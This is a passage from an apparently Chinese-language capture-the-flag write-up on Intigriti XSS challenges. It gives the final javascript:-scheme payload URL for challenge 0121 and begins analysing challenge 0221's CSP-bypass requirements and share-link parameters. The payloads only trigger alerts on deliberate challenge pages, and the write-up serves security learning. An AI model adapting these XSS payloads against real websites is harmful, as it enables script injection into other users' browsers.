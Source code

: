 最终的payload:

```
https://javascript.challenge-0121.intigriti.io/?r=jAvascript:alert(flag.innerHTML)/%0aid=origin
```

[![](https://p3.ssl.qhimg.com/t01745ecd2491fff46d.png)](https://p3.ssl.qhimg.com/t01745ecd2491fff46d.png)

```
https://javascript.challenge-0121.intigriti.io/?r=jAvascript:alert(``{`THIS_IS_THE_FLAG`}``)/%0aid=origin
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b19323e41c48198d.png)



## 0x03 xss challenge 0221

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E6%A6%82%E8%BF%B0"></a>题目概述

地址：[https://challenge-0221.intigriti.io/](https://challenge-0221.intigriti.io/)<br>
该挑战是根据真实漏洞场景改编而来，挑战有以下要求：
<li>触发`alert(origin)`
</li>
- 绕过CSP限制
- 不需要用户交互
- 使用最新版的Firefox或者Chrome浏览器
- 利用此页面的xss漏洞
- 不允许self-XSS 和 MiTM 攻击
### <a class="reference-link" name="%E6%80%9D%E8%B7%AF%E5%88%86%E6%9E%90"></a>思路分析

首先分析网页功能，随便输入一些字符串：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c0d3d3be4ee8cd1a.png)

可以看到网页反馈提示收到提交信息，并可以生成一个`share link`。点击`share link`，浏览器地址栏生成带有参数的地址如下：

```
https://challenge-0221.intigriti.io/?assignmentTitle=aaaaaaaaaaaa&amp;assignmentText=aaaaaaaaaaaaaaaaa...
```

由此可以判定，可以利用参数值构造payload形成xss。

检查网页源码，发现`script.js`:

[![](https://p2.ssl.qhimg.com/t01ed613223fc992ddf.png)](https://p2.ssl.qhimg.com/t01ed613223fc992ddf.png)
